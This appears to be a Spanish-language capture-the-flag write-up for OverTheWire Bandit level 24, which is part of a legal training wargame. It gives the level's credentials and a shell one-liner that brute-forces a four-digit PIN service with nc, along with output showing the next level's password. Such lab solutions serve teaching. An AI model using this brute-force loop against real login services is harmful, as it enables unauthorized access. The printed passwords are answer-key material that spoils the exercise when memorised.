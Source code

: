 ## Objetivo
A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing.  
You do not need to create new connections each time

## Datos de acceso al nivel
**bandit.labs.overthewire.org**
bandit24
Pasword
VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar
****** 
## Solucion
```shell
for i in {0000..9999};do echo VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar  $i; done| nc localhost 30002| grep -v Wrong
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
Correct!
The password of user bandit25 is p7TaowMYrmu23Ol8hiZh9UvD0O9hpx8d

Exiting.

```
## Notas adicionales 

## Referencias
